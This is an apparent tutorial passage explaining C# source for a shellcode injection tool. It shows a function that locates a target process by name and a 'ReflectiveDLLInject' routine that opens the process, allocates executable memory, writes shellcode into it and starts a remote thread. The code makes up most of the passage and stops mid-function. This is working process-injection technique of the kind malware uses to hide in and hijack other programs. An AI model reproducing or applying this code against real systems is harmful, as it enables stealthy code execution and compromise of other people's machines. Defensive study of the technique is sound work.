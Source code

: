 ```c#
    public static int SearchForTargetID(string process)
    {
            int pid = 0;
            int session = Process.GetCurrentProcess().SessionId;
            Process[] allprocess = Process.GetProcessesByName(process);

            try
            {
                foreach (Process proc in allprocess)
                {
                    if (proc.SessionId == session)
                {
                    pid = proc.Id;
                    Console.WriteLine("[+] Target process ID found: " + pid);
                }
            }
        }
        catch (Exception ex)
        {
            Console.WriteLine("[+] " + Marshal.GetExceptionCode());
            Console.WriteLine(ex.Message);
        }
        return pid;
    }
```
We can see that this function is used to identify the process id for a specific program we will attempt to inject our shellcode into.
It is very important to remember that we can only inject our shellcode into a process we have the correct permissions for.

```c#
    public static void ReflectiveDLLInject(int targetId, byte[] buffer)
        {
            try
            {
                IntPtr lpNumberOfBytesWritten = IntPtr.Zero;
                IntPtr lpThreadId = IntPtr.Zero;


                IntPtr procHandle = OpenProcess((uint)ProcessAccessRights.All, false, (uint)targetId);
                Console.WriteLine("[+] Getting the handle for the target process: " + procHandle);
                IntPtr remoteAddr = VirtualAllocEx(procHandle, IntPtr.Zero, (uint)buffer.Length, (uint)MemAllocation.MEM_COMMIT, (uint)MemProtect.PAGE_EXECUTE_READWRITE);
                Console.WriteLine("[+] Allocating memory in the remote process " + remoteAddr);
                Console.WriteLine("[+] Writing shellcode at the allocated memory location.");
                if (WriteProcessMemory(procHandle, remoteAddr, buffer, (uint)buffer.Length, out lpNumberOfBytesWritten))
                {
                    Console.WriteLine("[+] Shellcode written in the remote process.");
                    CreateRemoteThread(procHandle, IntPtr.Zero, 0, remoteAddr, IntPtr.Zero, 0, out lpThreadId);
                }
                else
                {
                    Console.WriteLine("[+] Failed to inject shellcode.");
                }

            }
            catch (Exception ex)
            {
                Console.WriteLine(ex.Message);
            }

```